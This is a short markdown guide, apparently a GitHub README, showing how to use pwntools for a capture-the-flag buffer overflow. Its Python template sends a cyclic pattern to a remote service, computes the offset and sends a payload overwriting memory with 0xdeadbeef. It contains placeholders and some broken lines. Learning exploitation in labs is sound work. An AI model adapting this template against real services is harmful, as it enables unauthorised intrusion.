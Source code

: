 # PWNTools

# Description

This markdown serves as a personal guide for how to utilize some of pwntools functions. I hope that it can possibly help anyone interested, as it has helped me accomplish a few pentesting goals. Use with caution, discernment, and safety.

Download: pip install pwntools


```python

from pwn import *

exe = ELF(#path_to_executable_here)
conn = remote(URL, PORT) #Used for remote connection, most times through netcat

#Random string pattern of 500 characters 
pattern = cyclic(length=500, n=4) 

conn.sendlineafter(LINE OF CODE IN INTEREST, pattern)

#Receive following line in program after pattern has been inserted and overflow buffer
conn.recvline()

code = conn.recvline()
#Data manipulation in order to get proper output for code value
code = code.decode("utf-8")
code = code.partition('code == ')[2]
code = code.partition('0x')[2]
code = code.rstrip('\n')
code = int(code, base=16)

#Find the offset in memory where the part of the code exists,
#in context of challenge, offset would have been 254
offset = cyclic_find(code, n=4)


#Payload to send to vulnerable program
payload = fit ({offset:0xdeadbeef})


#Open connection again and send payload instead of pattern
conn = remote(URL, PORT)
conn.sendlineafter(LINE OF CODE IN INTEREST, payload)


#Buffer should now have an overflow will the value 0xDEADBEEF
#Modifiy this code and its functionality for specific purpose needed

